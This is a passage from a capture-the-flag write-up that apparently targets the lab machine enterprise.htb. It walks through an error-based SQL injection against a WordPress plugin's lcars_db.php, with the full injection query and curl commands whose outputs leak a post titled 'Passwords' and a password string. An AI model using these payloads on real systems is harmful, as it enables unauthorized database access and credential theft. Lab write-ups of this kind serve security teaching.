 There’s an error message that contains the data I want to exfil, knowing that the last character (0 or 1) is not part of the data.

I’ll try to pull some data. First, I’ll change that table to `information_schema.columns`, as having a bunch more columns seems to make the error come up more often. Now I’ll replace `user()` with a query. I’ll also add in some tags that I could search on programmatically to extract the data. Finally, I want to put it into the format that fits the injection I have.

```

mysql> select id from wp_posts where post_name = 1 AND (select 1 from (select COUNT(*),concat((select mid(post_title,1,64) from wp_posts where id = 68), 0x3078646666647830, floor(rand()*2)) as a from information_schema.columns group by a) as x);
ERROR 1062 (23000): Duplicate entry 'Passwords0xdffdx01' for key '<group_key>'

```

Now I can get that with `curl`:

```

oxdf@parrot$ curl 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_title,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
<br />
<b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Passwords0xdffdx01' for key '&lt;group_key&gt;' in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />

```

I can pull content as well:

```

oxdf@parrot$ curl -s 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_content,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
<br />
<b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Needed somewhere to put some passwords quickly

ZxJyhGem4k338S' for key '&lt;group_key&gt;' in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />

```

I need the `mid` on the results because if too much data comes back, it handles that as multiple lines, and breaks the error message.